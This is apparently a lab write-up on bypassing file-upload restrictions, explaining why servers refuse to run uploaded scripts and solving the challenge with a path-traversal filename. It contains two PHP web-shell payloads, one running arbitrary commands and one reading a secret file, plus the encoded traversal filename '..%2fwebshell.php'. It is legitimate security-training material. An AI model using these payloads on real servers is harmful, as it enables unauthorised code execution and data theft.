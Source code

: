 ```yaml
---
tags: ["filter bypass", "webshell"]
---
```


## Preventing file execution in user-accessible directories

While it's clearly better to prevent dangerous file types being uploaded in the first place, the second line of defense is to stop the server from executing any scripts that do slip through the net.

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead:

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```

This behavior is potentially interesting in its own right, as it may provide a way to leak source code, but it nullifies any attempt to create a web shell.

This kind of configuration often differs between directories. A directory to which user-supplied files are uploaded will likely have much stricter controls than other locations on the filesystem that are assumed to be out of reach for end users. If you can find a way to upload a script to a different directory that's not supposed to contain user-supplied files, the server may execute your script after all.

## Challenge

> In this challenge we don't have upload permission on php files in current directory so we have to upload that to another directory and find the `/home/carlos/secret`

--> So i used the same payload as previous challenges:

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> After that i changed the filename to `..%2fwebshell.php` which is equal to `../webshell.php` and it will store the file in one previous directory of current location so let's try this !

And file got uploaded!

![](Attachments/Pastedimage20220124132312.png)

--> When we copy the image location we find the flag!

![](Attachments/Pastedimage20220124132250.png)
